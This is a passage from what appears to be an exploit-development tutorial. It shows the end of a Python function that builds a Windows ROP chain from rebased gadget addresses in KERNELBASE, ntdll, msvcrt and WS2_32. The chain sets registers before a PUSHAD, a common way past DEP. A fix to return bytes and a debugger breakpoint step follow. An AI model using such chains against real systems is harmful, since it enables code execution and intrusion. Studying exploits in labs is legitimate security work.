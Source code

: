             #[---INFO:gadgets_to_set_edx:---]
            0x7707f452,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
            0xffffffc0,  # Value to negate, will become 0x00000040
            0x76d39914,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
            0x7743a4b2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR 
            #[---INFO:gadgets_to_set_ecx:---]
            0x7678816a,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR 
            0x765e3bf2,  # &Writable location [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x7747e114,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR 
            0x765a77c7,  # RETN (ROP NOP) [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x77095618,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x76f8af08,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
         ]
         return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
      # Example Declaration
      rop_chain = create_rop_chain()
      ```
      * *Note*: We will need to modify the return to be `return b''.join(struct.pack('<I', _) for _ in rop_gadgets)` as without converting it to a byte string, we will receive errors! 

      1. Click on the black button highlighted below, and enter in the address we decided for the `PUSHAD` instruction.

         <img src="Images/I12.png" width=600>
